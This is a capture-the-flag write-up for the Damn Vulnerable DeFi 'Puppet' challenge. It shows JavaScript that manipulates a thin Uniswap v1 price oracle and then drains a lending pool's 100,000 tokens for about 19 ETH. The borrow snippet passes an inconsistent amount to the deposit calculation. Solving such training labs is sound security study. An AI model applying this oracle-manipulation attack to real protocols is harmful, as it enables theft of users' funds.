 # Challenge #8 - Puppet

There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

    [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/puppet)
    [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/puppet/puppet.challenge.js)

# Solution

The `calculateDepositRequired(uint256 amount)` calculates the amount of eth you need to pay for borrowing an amount of token.

This function basically uses the following calculation to figure out the collateral ratio:

`(amount * ((uniswapPair.balance * (10**18)) / token.balanceOf(uniswapPair))) * 2) / 10**18;`

You can change the collateral price, by changing`uniswapPair.balance` or `token.balanceOf(uniswapPair)`.

To solve this challenge, I traded 999 token for eth through uniswap pool.

```js
//trade 999 tokens for eth
await token.approve(uniswapExchange.address, ethers.utils.parseEther("999"))
await uniswapExchange.tokenToEthSwapInput(
    ethers.utils.parseEther("999"),
    1,
    (await ethers.provider.getBlock("latest")).timestamp * 2
)
```

This changes the collateral ratio and allows you to borrow 100000 tokens for ~19 eth. You can borrow all the tokens from the PuppetPool with about ~19eth.

```js
await lendingPool.borrow(ethers.utils.parseEther("100000"), {
    value: ethers.utils.parseEther((await lendingPool.calculateDepositRequired(110000)).toString()),
    gasLimit: 1e6,
})
```
